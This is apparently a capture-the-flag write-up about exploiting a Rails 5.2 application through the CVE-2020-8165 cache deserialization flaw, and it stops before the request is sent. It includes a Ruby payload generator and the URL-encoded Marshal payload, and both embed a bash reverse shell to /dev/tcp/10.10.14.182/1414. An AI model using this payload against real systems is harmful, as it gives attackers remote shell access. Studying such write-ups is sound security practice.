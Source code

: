 From the git folder, we can already see that it uses the CGI to run rails probably
```
-rw-r--r-- 	2365 	Gemfile 	blob | history | raw
-rw-r--r-- 	5982 	Gemfile.lock 	blob | history | raw
```

Lets check the version by searching in the files (there is a functionality to search with grep)... 
```
ruby '2.5.5'
'rails', '5.2.2.1'
```

There were multiple versions disclosed, i picked the latest in each search <br>

There's a CVE for a version above 
- code: CVE-2020-8165
- Description: A deserialization of untrusted data vulnernerability exists in rails < 5.2.4.3, rails < 6.0.3.1 that can allow an attacker to unmarshal user-provided objects in MemCacheStore and RedisCacheStore potentially resulting in an RCE. 
- POC: https://github.com/masahiro331/CVE-2020-8165


```
code = '`/bin/bash/ -c "bash -i >& /dev/tcp/10.10.14.182/1414 0>&1"`'
erb = ERB.allocate
erb.instance_variable_set :@src, code
erb.instance_variable_set :@filename, "1"
erb.instance_variable_set :@lineno, 1
payload = Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
require 'uri'
puts URI.encode_www_form(payload: payload)
```

Since the vulnerability resides in the mode the cache is fetch (raw), we can check in the git repo page (using the grep functionality) that it is used on user account changes... we can change the user name, so thats the form we are targeting!!!
```

File: /app/controllers/users_controller.rb

Line: @current_username = cache.fetch("username_#{session[:user_id]}", raw: true) {user_params[:username]}
```

The generated payload is
```
%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%40%60%2Fbin%2Fbash+-c+%22bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.14.182%2F1414+0%3E%261%22%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T
```


Now we need to change the request (i used burp to do that, using curl with post methods just takes more time and im a lazy mf)... <br>
